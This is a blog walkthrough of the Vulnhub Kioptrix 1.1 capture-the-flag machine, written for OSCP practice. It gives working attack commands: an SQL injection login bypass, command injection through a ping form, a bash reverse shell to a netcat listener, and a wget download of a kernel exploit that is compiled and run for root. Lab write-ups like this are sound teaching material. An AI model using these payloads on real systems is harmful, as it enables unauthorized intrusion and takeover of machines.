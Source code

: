 ```yaml
---
title: "Kioptrix #2 Walkthrough"
author: alex
date: Sat 8 Jul 18:15:48 CEST 2023
categories: [Walkthroughs]
tags: [oscp, ctf, walkthroughs, vulnhub]
img_path: /assets/img/posts/2023-07-08-kioptrix-2-walkthrough/
---
```


Today I'm hacking into **Kioptrix 1.1**. Or Kioptrix #2. This is one of the many **beginner-friendly OSCP-like** CTFs of Vulnhub. So it's a great starting point for preparing the OSCP tests. If you want to start with the previous level, check my walkthrough **[here!](/posts/kioptrix-1-walkthrough)**

## Methodology

1. Reconnaissance
2. Enumeration
3. Exploitation
   - Gaining root access

## Tools Used

- Netdiscover
- Nmap
- Searchsploit
- Someone's exploit

## Recon

Let's scan the network to discover our target's IP address:

```bash
sudo netdiscover
```
And here's the output:

```
Currently scanning: 192.168.18.0/16   |   Screen View: Unique Hosts                                               
                                                                                                                   
2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                                   
_____________________________________________________________________________
  IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
-----------------------------------------------------------------------------
192.168.1.1     08:00:27:bf:11:12      1      60  PCS Systemtechnik GmbH                                          
192.168.1.38    08:00:27:fd:e3:ab      1      60  PCS Systemtechnik GmbH 
```
## Enumeration 

After getting the IP address of the target we now need to enumerate the target for open ports and protocols. I have used **Nmap** aggressive command for that: 

```bash
sudo nmap -p- -T4 -A -O -v 192.168.1.38
```

> **IDS & FW TRIGGERING** 
> 
> In real world situations, **this scans may trigger firewalls and other network security appliances.** If you want to run a softer scan, just change `-sV` to `-sS`. Once you know the open ports, you can target them individually. Change `-T4` (speed 4) to `-T1` (slow speed, will take ages) as well. It's not undetectable but less probable. You can also use `-D` for decoy. Check the Nmap theory **[here!](/posts/oscpath-week-1/#port-scanning)**
{: .prompt-warning }

And the output...

```
Nmap scan report for 192.168.1.38
Host is up (0.00040s latency).
Not shown: 65528 closed tcp ports (reset)

PORT     STATE SERVICE  VERSION

22/tcp   open  ssh      OpenSSH 3.9p1 (protocol 1.99)
|_sshv1: Server supports SSHv1
| ssh-hostkey: 
|   1024 8f3e8b1e5863fecf27a318093b52cf72 (RSA1)
|   1024 346b453dbacecab25355ef1e43703836 (DSA)
|_  1024 684d8cbbb65abd7971b87147ea004261 (RSA)

80/tcp   open  http     Apache httpd 2.0.52 ((CentOS))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.0.52 (CentOS)

111/tcp  open  rpcbind  2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            761/udp   status
|_  100024  1            764/tcp   status

443/tcp  open  ssl/http Apache httpd 2.0.52 ((CentOS))
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_RC2_128_CBC_WITH_MD5
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Issuer: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: md5WithRSAEncryption
| Not valid before: 2009-10-08T00:10:47
| Not valid after:  2010-10-08T00:10:47
| MD5:   01de29f9fbfb2eb2beafe6243157090f
|_SHA-1: 560c91966506fb0ffb8166b1ded3ac112ed4808a
|_ssl-date: 2023-05-30T02:01:42+00:00; +5h59m59s from scanner time.
|_http-server-header: Apache/2.0.52 (CentOS)

631/tcp  open  ipp      CUPS 1.1
| http-methods: 
|   Supported Methods: GET HEAD OPTIONS POST PUT
|_  Potentially risky methods: PUT
|_http-title: 403 Forbidden
|_http-server-header: CUPS/1.1

764/tcp  open  status   1 (RPC #100024)

3306/tcp open  mysql    MySQL (unauthorized)

MAC Address: 08:00:27:79:1B:6D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.30
Uptime guess: 0.006 days (since Mon May 29 21:52:38 2023)
Network Distance: 1 hop
TCP Sequence Prediction: Difficulty=206 (Good luck!)
IP ID Sequence Generation: All zeros

Host script results:
|_clock-skew: 5h59m58s
```

We can see some interesting ports open here. 

- **Port 22:** Nothing interesting so far.

- **Port 80/443:** Let's start with HTTP and HTTPS. We have both ports open so the first thing we are going to do is open the browser and search for http://192.168.1.38. We find a login page, let's keep going with the recon before trying anything here.

- **Other ports:** Visiting http://192.168.1.38:3306/ we see we are not allowed to connect to the MySQL server. 

Back to the login page. This cheap looking login form is crying for some **SQLi attempts**. And so we do!  As soon as we try the good ol' vanilla `admin' or 1=1 #` in the username text field and `1234` as password, we get access to the administrator page!

![SQL Injection](/login-sql-injection.png)

Now we see another text field for pinging hosts in the same network. Let's ping ourselves and check the output:

```
192.168.1.23

PING 192.168.1.23 (192.168.1.23) 56(84) bytes of data.
64 bytes from 192.168.1.23: icmp_seq=0 ttl=64 time=0.475 ms
64 bytes from 192.168.1.23: icmp_seq=1 ttl=64 time=1.05 ms
64 bytes from 192.168.1.23: icmp_seq=2 ttl=64 time=0.808 ms

--- 192.168.1.23 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.475/0.780/1.058/0.239 ms, pipe 2
```

Looks like the output we get when pinging from the console so... would it be vulbnerable to **Remote Code Execution**? Let's try to submit `192.168.1.23; whoami`

![Remote Code Execution](/remote-code-whoami.png)

Oh yeah! **Vulnerable to RCE!** We can `cat` the `/etc/passwd` to do some user enumeration as well:

![/etc/passwd File](/data-leak.png)

Now let's try to spawn a shell for us:

**On attaker's machine:**

```bash
sudo nc -nvlp 443
```

**In the ping text field:**

```bash
192.168.1.23; bash -i >& /dev/tcp/192.168.1.23/443 0>&1
```

And we have a shell! Now it's time to escalate privileges! First, let's find out the kernel version and the release.

![Shell](/shell.png)

```bash
uname -a
```

And we see that **kernel is 2.6.9**. Now, let's cat the release:

```bash
cat /etc/*-release
```

And the release is **CentOS 4.5**.

## Exploitation

Back to our machine, let's find an exploit that suits best for these features:

```bash
searchsploit linux 2.6 CentOS 
```

And there's an exploit that seems to fit our purpose. Let's mirror it into our machine:

```bash
searchsploit -m linux/local/9545.c
```

Now we have to copy it into the `/var/www/html` folder and start Apache.

```bash
sudo service apache2 start
```

Back to Kioptrix:

```bash
wget 192.168.1.23/9545.c
gcc 9545.c -o exploit
chmod 777 exploit
./exploit
```
![Root!](/root.png)

And there we go! Now we are root! I know, it's quite easy to hack into but, as I said, this is a beginner-friendly machine. It's good for learning the basics. See you soon and happy hacking!
